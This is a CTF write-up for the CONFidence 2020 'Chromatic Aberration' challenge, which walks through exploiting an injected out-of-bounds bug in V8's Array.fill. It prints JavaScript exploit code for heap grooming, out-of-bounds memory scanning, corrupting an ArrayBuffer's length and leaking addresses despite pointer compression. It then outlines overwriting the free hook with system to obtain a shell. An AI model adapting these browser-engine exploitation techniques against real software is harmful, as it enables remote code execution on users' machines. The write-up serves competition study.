



# CONFidence CTF 2020 Teaser Chromatic aberration


```
Chromatic Aberration
Points: 182
Solves: 20
Pwn our chrome for fun and profit.

Ok, it's not really Chrome, but it's close enough.

Let's say, it's chromatic

The memory limit is 64MB

nc chromatic-aberration.zajebistyc.tf 31004
6d87044f837a59e649f6d799143aede299a3103e764f8c46c921c3ee16da773a_chromatic_aberration.tar 103M
For people having problems with the above link, try this ones

6d87044f837a59e649f6d799143aede299a3103e764f8c46c921c3ee16da773a_chromatic_aberration.tar 103M
6d87044f837a59e649f6d799143aede299a3103e764f8c46c921c3ee16da773a_chromatic_aberration.tar 103M

```


In this CTF Question, author introduced a OOB read and arbitary write to the Array.fill of the V8 engine 

So, our exploitation will be very straightforward 

First, we will set up a Big int array with 0x33313131 as marking for arbitary write after we collect sufficent primitive with the OOB 


```js
var tarr = new BigUint64Array(8);
tarr[0] = 0x33313131n;
tarr[1] = 0x32323232n;
```

Then , we will setup an Array of ArrayBuffer and trigger garbage collection to move all of this items to the oldspace.

As mentioned in the doc of GC, its expected to trigger in anytime, this step can ensure the address leaked will be constant throughout the exploitation

This is essential for locating relative information and escalate to code execution (There is better way for this chall T_T) 

```js
var ab = []
for (var i = 0; i < 0x200; i++) {ab.push(new ArrayBuffer(0x1337));}
var oob_str_arr = ['AAAAAAAA','BBBBBBBB','CCCCCCCC']
gc();
gc();
console.log('[+] Locate relative postion of tarr')
```

We use the OOB read primitive to locate the relative postion of tarr from the oob_str_arr and locate one of the ArrayBuffer 

```js

var tarr_ix = 0;
for (var i = 0; i < 4000; i++) { 
    if(oob_str_arr[0].charCodeAt(-1620000-i) == 0x33& 
    oob_str_arr[0].charCodeAt(-1620000-i-1)  == 0x31& 
    oob_str_arr[0].charCodeAt(-1620000-i-2)  == 0x31& 
    oob_str_arr[0].charCodeAt(-1620000-i-3)  == 0x31)
    {
        tarr_ix=i;
        };
        }
console.log(tarr_ix);
console.log('[+] Locate array buffer')

var ab_ix = 0;
for (var i = 0; i < 4000; i++) { 
    if(oob_str_arr[0].charCodeAt(-1620000-i) == 0x13 & 
    oob_str_arr[0].charCodeAt(-1620000-i-1)  == 0x37)
    {
        ab_ix=i;
        };
        }
```

The above code used the memory layout as a features for locating the ArrayBuffer from the memory : 



Originally, we fetch the difference dynamically, but it turns out that this way not quite stable, so we just hardcode it with 650(found base on experiment)


```js
// 650 is the threshold calculate from running the code in debugger 
// weird 
diff = 650//tarr_ix-ab_ix;
console.log('[+] Difference : ')
console.log(diff)

```

Next, we will corrupt the size of the ArrayBuffer we obtained and get it back 


```js
tarr.fill(0x4000n,Math.floor(diff/8)-1,Math.floor(diff/8));

var corrupted_ix = 0;

console.log('[+] Now we corrupted one of the array size :)')
for (var i = 0; i < 0x200; i++){
    if (ab[i].byteLength!=0x1337)
    {
        corrupted_ix =i;
    }
    };

```

Our exploitation technique is simple, we will corrupt the backing store of the ArrayBuffer and point it to anywhere in the memory


However, from the deployed pointer compression [1](https://blog.exodusintel.com/2020/02/24/a-eulogy-for-patch-gapping-chrome/), we cannot leak address directly

So, we will need to leak the upper part of the address 

While scanning the memory, we found the upper part of the address



The 0x0000007 pattern exist constantly throughout runtime, so we use the below code to scan the memory in order to retrieve the upper part of the address 


```js
var up_byte = 0;
var lo_byte = 0;

for (var i = 0; i < 10000; i++) { 
    if(oob_str_arr[0].charCodeAt(-1620000-i)  ==0 & 
       oob_str_arr[0].charCodeAt(-1620000-i-1)==0 & 
       oob_str_arr[0].charCodeAt(-1620000-i-2)==0 & 
       oob_str_arr[0].charCodeAt(-1620000-i-3)==7 & 
       oob_str_arr[0].charCodeAt(-1620000-i+1)>0 & 
       oob_str_arr[0].charCodeAt(-1620000-i+2)>0) {
           up_byte = oob_str_arr[0].charCodeAt(-1620000-i+2); 
           lo_byte = oob_str_arr[0].charCodeAt(-1620000-i+1);
            break;
            }
            }
```

Thanks to the pointer compression, the step for leaking the binary base is much easier now :) 

We can leak some pointer of the d8. Then,using the CXA handler to resolve the GI abort and overwrite the free hook with system and call console.log('sh') to get the shell  

Exploit with [pwn_with_logs.js](pwn_with_logs.js) will crash due to weird GC issues 	


